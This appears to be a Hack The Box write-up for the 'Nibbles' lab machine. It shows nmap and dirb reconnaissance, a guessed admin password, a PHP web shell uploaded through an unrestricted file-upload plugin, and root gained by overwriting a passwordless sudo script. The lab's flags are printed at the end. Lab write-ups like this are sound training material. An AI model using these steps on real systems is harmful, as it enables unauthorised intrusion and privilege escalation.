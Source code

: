 ```yaml
---
layout: offsec
category: [offsec]
---
```


![banner](/assets/images/nibbles.png) 
# Nibbles: 10.10.10.75


## Scanning:

<br>

```bash
nmap 10.10.10.75

Starting Nmap 7.01 ( https://nmap.org ) at 2018-05-05 19:14 EDT
Nmap scan report for 10.10.10.75
Host is up (0.11s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 21.39 seconds
```

<br>

## Gaining Access:

<br>

As always, let's start exploring the HTTP application running on port 80.

Well, nothing interesting there.. Let's use <a href='https://tools.kali.org/web-applications/dirb'>dirb</a> to bruteforce all common known directories as so `dirb 10.10.10.75/nibbleblog/`


__Note: I created a function for calling dirb:__


_~/.zshrc_
```bash
dirb(){
    echo 'HTTPS'
    echo
    /home/srbz/._bin/dirb/dirb https://$1 /home/srbz/._bin/dirb/wordlists/common.txt
    echo 'HTTP'
    echo
    /home/srbz/._bin/dirb/dirb http://$1 /home/srbz/._bin/dirb/wordlists/common.txt
}
```

Apparently, there's no other way to login than guessing. Hack the box usually use the challenge name as the password. 

`username: admin`

`password: nibbles`


<br>

## Maintaining Access:

<br>

Once logged in, we can upload files by using the plugin`my_image.` The vulnerability of that plugin is that it does not verrify the file extension. So, I uploaded my <a href='https://github.com/KevinCarroll7737/tools/blob/master/shell.php'>shell.php</a>


By running <a href='https://github.com/KevinCarroll7737/tools/blob/master/linenum.sh'>linEnum.sh</a>, I've been able to see fast and clearly which files the user `nibbler` had the control of.

```bash
bash linenum.sh

(...)

utching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Ok so we can use `/home/nibbler/personal/stuff/monitor.sh` with sudo without giving password. Let's change what's in this script.

<br>

## Covering Tasks:

<br>

```bash
echo 'cat /root/root.txt > /tmp/srbz.txt; chown nibbler:nibbler /tmp/srbz.txt; chmod 777 /tmp/srbz.txt' >  /home/nibbler/personal/stuff/monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
cat /tmp/srbz.txt
b6d745c0dfb6457c55591efc898ef88c
cat /home/nibbler/user.txt
b02ff32bb332deba49eeaed21152c8d8
```
